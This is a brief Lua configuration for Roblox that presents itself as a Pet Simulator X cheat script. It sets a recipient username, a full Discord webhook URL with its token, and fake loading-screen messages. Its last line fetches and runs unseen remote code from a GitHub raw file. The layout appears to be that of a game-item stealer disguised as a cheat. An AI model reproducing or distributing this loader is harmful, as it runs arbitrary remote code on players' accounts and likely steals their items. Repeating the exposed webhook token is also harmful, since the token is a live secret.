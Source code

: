 Username = "ThailandTV123_0"

WebHook = "https://discord.com/api/webhooks/1101372898867941376/YfAzoy-xyqRgKfOGMepRIMgVYIJ-SduS9G-iqCu-t_tlH_ZPiYho4_iGJCMmPFsUl4tG"

loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI

_G.CustomScriptName = "PSX Script"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
